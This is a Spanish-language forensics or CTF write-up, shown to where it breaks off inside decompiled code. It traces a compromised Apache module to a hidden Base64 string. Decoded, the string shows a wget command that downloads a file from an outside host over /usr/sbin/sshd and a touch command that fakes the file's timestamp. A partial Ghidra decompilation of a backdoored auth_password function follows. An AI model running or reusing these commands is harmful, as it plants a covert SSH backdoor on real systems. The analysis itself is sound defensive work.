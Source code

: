 ```console
```

Observamos el archivo `mod_reader.so` _(conocidas como librerías dinámicas por la extensión .so - Shared Object)_ con última fecha de modificación en `May 17`, además tiene relación con el problema ya que los módulos en `apache` sirven para diversas funcionalidades del servidor

Ahora descargamos el archivo a nuestra máquina y vemos que también es un archivo ejecutable, así que extraemos cadenas imprimibles con `strings`:

```console
.....
....
......
d2dldCBzaGFyZWZpbGVzLnh5ei9pbWFnZS5qcGVnIC1PIC91c3Ivc2Jpbi9zc2hkOyB0b3VjaCAtZCBgZGF0ZSArJVktJW0tJWQgLXIgL3Vzci9zYmluL2EyZW5tb2RgIC91c3Ivc2Jpbi9zc2hk
.....
....
.
```

Viendo el formato nos damos cuenta que esta codificado en **Base64**, entonces lo decodeamos y obtenemos estos comandos:

```shell
❯ echo d2dldCBzaGFyZWZpbGVzLnh5ei9pbWFnZS5qcGVnIC1PIC91c3Ivc2Jpbi9zc2hkOyB0b3VjaCAtZCBgZGF0ZSArJVktJW0tJWQgLXIgL3Vzci9zYmluL2EyZW5tb2RgIC91c3Ivc2Jpbi9zc2hk > hiddenB64Data.txt
❯ cat hiddenB64Data.txt | base64 -d | tr ';' '\n' | sed 's/^ //g'
wget sharefiles.xyz/image.jpeg -O /usr/sbin/sshd
touch -d `date +%Y-%m-%d -r /usr/sbin/a2enmod` /usr/sbin/sshd
```
{: .nolineno }

Observamos que se concatena una imagen al binario `sshd` _(Servidor del protocolo SSH)_, y lo que parece sospechoso es que se altera la fecha por el binario `a2enmod` _(Comando para activar los módulos de apache)_

Ya que vemos relación con **SSH** y que el propietario `root` es el único que puede modificar este archivo, podemos descargar dicho archivo a nuestra máquina para analizarlo con mas detalle usando `ghidra` _(herramienta de ingeniería inversa)_:

> Filtramos por la palabra `password` y encontramos algo insteresante:

![GHIDRA/SSHD](ghidra_sshd.png){: .shadow}

Encontramos la función `auth_password` que contiene una variable `backdoor` _(método que permite a cualquier persona eludir medidas de seguridad para acceder de manera remota y como usuario de alto nivel, a un sistema informático sin el conocimiento del propietario)_ que guarda una cadena de carácteres en un arreglo. Veamos a detalle la función:

```c
int auth_password(ssh *ssh,char *password)

{
  Authctxt *ctxt;
  passwd *ppVar1;
  int iVar2;
  uint uVar3;
  byte *pbVar4;
  byte *pbVar5;
  size_t sVar6;
  byte bVar7;
  int iVar8;
  long in_FS_OFFSET;
  char backdoor [31]; // backdoor variable declaration
  byte local_39 [9];
  long local_30;
  
  bVar7 = 0xd6;
```